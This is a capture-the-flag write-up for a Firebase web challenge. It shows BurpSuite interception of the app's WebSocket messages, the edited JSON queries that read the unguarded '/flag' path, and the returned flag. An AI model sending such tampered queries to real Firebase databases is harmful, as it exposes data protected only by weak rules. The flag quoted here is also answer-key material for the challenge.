

# Speedrun 4

Web 

### Description
[https://udctf-fb.firebaseapp.com/](https://udctf-fb.firebaseapp.com/)

   

### Solution

#### Discovery
We used BurpSuite 
At first, we disable intercept 
Under Proxy -> WebSockets history, we filtered such that we only saw outgoing messages 
We see that it always sends 4 times 
The content are as follows: 
1. `{"t":"d","d":{"r":1,"a":"s","b":{"c":{"sdk.js.8-3-1":1}}}}`
2. `{"t":"d","d":{"r":2,"a":"q","b":{"p":"/books","h":""}}}`
3. `{"t":"d","d":{"r":3,"a":"n","b":{"p":"/books"}}}`
4. `{"t":"d","d":{"r":4,"a":"q","b":{"p":"/books","h":""}}}`

We realise that they access directories 

#### Getting the flag
We enable intercept to see the incoming messages 
We edit the 2nd and 3rd messages 
2nd message became `{"t":"d","d":{"r":1,"a":"q","b":{"p":"/flag","h":""}}}` 
3rd message became `{"t":"c","d":{"t":"p","d":{flag}}}` 
Then, it returned a message with the flag `{"t":"d","d":{"b":{"p":"flag","d":"UDCTF{l34rn_d4t4b4s3_rul3s}"},"a":"d"}}`  
 

 
> UDCTF{l34rn_d4t4b4s3_rul3s}

   

#### Obligatory bragging rights
My second ever first-blood on the same ctf LOL 
  
 